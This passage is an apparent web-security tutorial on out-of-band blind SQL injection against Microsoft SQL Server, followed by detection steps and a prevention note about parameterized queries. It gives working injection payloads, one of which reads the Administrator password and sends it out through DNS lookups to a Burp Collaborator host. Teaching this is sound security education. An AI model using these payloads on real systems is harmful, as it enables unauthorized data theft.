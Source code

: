 The easiest and most reliable way to use out-of-band techniques is using [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator). This is a server that provides custom implementations of various network services (including DNS), and allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application.

The techniques for triggering a DNS query are highly specific to the type of database being used. On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

You can use Burp Suite's [Collaborator client](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

Having confirmed a way to trigger out-of-band interactions, you can then use the out-of-band channel to exfiltrate data from the vulnerable application. For example:

`'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`

This input reads the password for the `Administrator` user, appends a unique Collaborator subdomain, and triggers a DNS lookup. This will result in a DNS lookup like the following, allowing you to view the captured password:

`S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net`

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

<hr />

## How to detect?

-   Submitting the single quote character `'` and looking for errors or other anomalies.
-   Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
-   Submitting Boolean conditions such as `OR 1=1` and `OR 1=2, and` looking for differences in the application's responses.
-   Submitting payloads designed to trigger time delays when executed within an SQL query, and looking for differences in the time taken to respond.
-   Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within an SQL query, and monitoring for any resulting interactions.

<hr />

## Prevention
Most instances of SQL injection can be prevented by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.








	


